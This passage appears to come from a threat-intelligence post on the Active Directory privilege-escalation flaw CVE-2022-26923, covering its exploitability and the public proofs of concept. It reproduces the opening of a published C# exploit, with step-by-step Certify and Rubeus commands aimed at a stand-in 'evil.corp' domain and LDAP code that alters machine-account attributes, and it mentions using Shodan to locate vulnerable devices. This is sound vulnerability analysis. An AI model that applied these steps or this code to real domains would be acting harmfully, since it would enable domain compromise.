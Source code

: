**However**, even a simple search enable some working PoC's and [**shodan website**](https://www.shodan.io) also can give many vulnerable Windows devices. (_You need to search with the correct search queries to find them, though._) Here, I will add some links for you to examine the PoC links and some code which prove that this vulnerability has been begun being exploited in the wild. On the other hand, since this attacks may require some knowledge, and it is pretty new, it is true that CTI Interest Score is low. I have added a screenshot after my detailed research to be sure if there is a working PoC or not.

The exploitability is told to be easy. It is possible to launch the attack remotely. The successful exploitation needs a authentication. Technical details are unknown but ==a few  public exploits are available==.

First public exploit has been developed by **Oliver Lyak** (ly4k_) in Python and been published before and not just after the advisory. It is declared as ==proof-of-concept==. The exploit is shared in his website for download at [**research.ifcr.dk**](https://research.ifcr.dk/). 
Another exploit was written by [Dominic Chell](https://gist.github.com/dmchell) from MDSecLabs. I just added the screenshots here, so if interested, you can check the code in detail in his Github.

```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
// Author: @domchell - MDSec
// This exploit can be used to update the relveant AD attributes required to enroll in a machine template as any machine in AD using an existing machine account
// Adjusting MS-DS-Machine-Account-Quota is not sufficient to stop this attack :)

// Steps:
// 1.       Escalate on any workstation (hint: krbrelayup ftw)
// 2.       Execute UpdateMachineAccount.exe as SYSTEM
// 3.       Enroll in machine template e.g. (Certify.exe request /ca:"ca.evil.corp\\CA" /template:Computer /machine /subject:CN=dc.evil.corp
// 4.       Request a TGT using the certificate e.g. (Rubeus.exe asktgt /user:dc$ /domain:evil.corp /dc:dc.evil.corp /certificate:<base64 cert> /enctype:AES256)
// 5.       Profit with s4u, silver ticket, dcsync etc...

// Credits: Oliver Lyak (@ly4k_) for CVE-2022–26923, Certipy and the excellent write up at https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4


using System;
using System.DirectoryServices;

namespace UpdateMachineAccount
{
    class Program
    {

        public static void SetAdInfo(string objectFilter,
                string domain, string dchost, string LdapDomain)
        {
            string connectionPrefix = "LDAP://" + LdapDomain;
            DirectoryEntry entry = new DirectoryEntry(connectionPrefix);
            DirectorySearcher mySearcher = new DirectorySearcher(entry);
            mySearcher.Filter = objectFilter;
            mySearcher.PropertiesToLoad.Add("serviceprincipalname");
            mySearcher.PropertiesToLoad.Add("dnshostname");

            SearchResult result = mySearcher.FindOne();

            Console.WriteLine("[*] Searching for object");

            if (result != null)
            {
                Console.WriteLine("[*] Found object");

                DirectoryEntry entryToUpdate = result.GetDirectoryEntry();

```